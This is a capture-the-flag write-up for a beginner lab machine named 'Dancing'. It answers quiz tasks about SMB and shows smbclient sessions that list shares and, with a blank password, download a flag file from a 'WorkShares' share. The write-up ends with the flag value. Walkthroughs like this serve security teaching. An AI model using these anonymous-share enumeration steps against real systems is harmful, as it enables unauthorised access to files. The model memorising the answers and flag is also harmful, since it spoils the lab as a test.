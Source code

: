```yaml
---
date: 07/23/2022
---
```


# Machine Name: Dancing

## Difficulty: Very Easy
## Task #: 7
### Task 1:
#### What does the 3-letter acronym SMB stand for? 

#### Answer: Server Message Block

### Task 2:
#### What port does SMB use to operate at? 

#### Answer: 445

### Task 3:
#### What is the service name for port 445 that came up in our Nmap scan? 

#### Answer: microsoft-ds

### Task 4:
#### What is the 'flag' or 'switch' we can use with the SMB tool to 'list' the contents of the share? 

#### Answer: -L 

### Task 5: 
#### What is the name of the share we are able to access in the end with a blank password? 

```bash
$ smbclient -L 10.129.1.12
Enter WORKGROUP\gerbsec's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk      
SMB1 disabled -- no workgroup available
```

#### Answer: WorkShares

### Task 6
#### What is the command we can use within the SMB shell to download the files we find? 

#### Answer: get

### Task 7 
####  Submit root flag:

```bash
smb: \> ls
  .                                   D        0  Mon Mar 29 04:22:01 2021
  ..                                  D        0  Mon Mar 29 04:22:01 2021
  Amy.J                               D        0  Mon Mar 29 05:08:24 2021
  James.P                             D        0  Thu Jun  3 04:38:03 2021

		5114111 blocks of size 4096. 1731786 blocks available
smb: \> cd James.P\
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 04:38:03 2021
  ..                                  D        0  Thu Jun  3 04:38:03 2021
  flag.txt                            A       32  Mon Mar 29 05:26:57 2021
get fl
		5114111 blocks of size 4096. 1731744 blocks available
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \James.P\>
$ cat flag.txt
5f61c10dffbc77a704d76016a22f1664
```

#### Answer: 5f61c10dffbc77a704d76016a22f1664
